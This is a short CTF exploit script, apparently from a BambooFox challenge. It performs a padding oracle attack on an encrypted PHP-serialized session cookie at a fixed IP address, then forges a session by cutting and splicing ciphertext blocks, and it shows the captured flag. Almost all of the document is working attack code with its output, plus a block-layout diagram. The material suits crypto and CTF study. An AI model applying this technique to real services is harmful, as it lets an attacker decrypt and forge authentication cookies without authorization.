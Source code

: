 Exploit
```python
import requests, sys

# https://github.com/djosix/padding_oracle.py
from padding_oracle import *


URL = 'http://34.82.101.212:8002/'

#=========================================================
# Padding oracle
#=========================================================

sess = requests.Session()
session = '%2Bfs7r4VO2kxNDdi0arbP7r6bqqf993hx739dOLzBYo5HKnKHZCTLjRBlCYlSTLEszQzRJldsd9Tfv04AUNsFtA%3D%3D'
cipher = base64_decode(urldecode(session))

def oracle(cipher):
    r = sess.get(URL, cookies={'session': urlencode(base64_encode(cipher))})
    return 'error' not in r.text

plaintext = padding_oracle(cipher, 16, oracle, 64)

print(remove_padding(plaintext).decode())
# b'a:2:{s:4:"show";b:0;s:4:"name";s:1:"a";}\x08\x08\x08\x08\x08\x08\x08\x08'

#=========================================================
# Modify session
#=========================================================

'''
                a:2:{s:4:"show";b:0;s:4:"name";s:3:"asd";}
[------IV------][----Block-----][----Block-----][----Block-----]
a:2:{s:4:"show";b:0;s:4:"name";s:?:"                                            ";}
                                    a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}
a:2:{s:4:"show";b:0;s:4:"name";s:44:"___________a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}
0               16              32              48              64              80              96              112             128

[------IV------][----Block-----][----Block-----][----Block-----][----Block-----][----Block-----][----Block-----][----Block-----]
                                                [------IV------][----Block-----][----Block-----][----Block-----]
                a:2:{s:4:"show";b:0;s:4:"name";s:59:"___________a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}_";}
0               16              32              48              64              80              96              112             128

name=___________a%3A2%3A%7Bs%3A4%3A%22show%22%3Bs%3A1%3A%221%22%3Bs%3A4%3A%22name%22%3Bs%3A1%3A%22a%22%3B%7D%22%3B%7D%01

'''

name = '___________a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}\x01'
cipher = base64_decode(urldecode(requests.post(URL, data={'name': name}).cookies.get('session')))
cipher = cipher[48:112]
print(requests.get(URL, cookies={'session': urlencode(base64_encode(cipher))}).text)
# <title>大吉</title><h1>Hello, a</h1>This is your flag: <b>BAMBOOFOX{78c75409bab501f3973ac6dc7e309b59}</b>
```
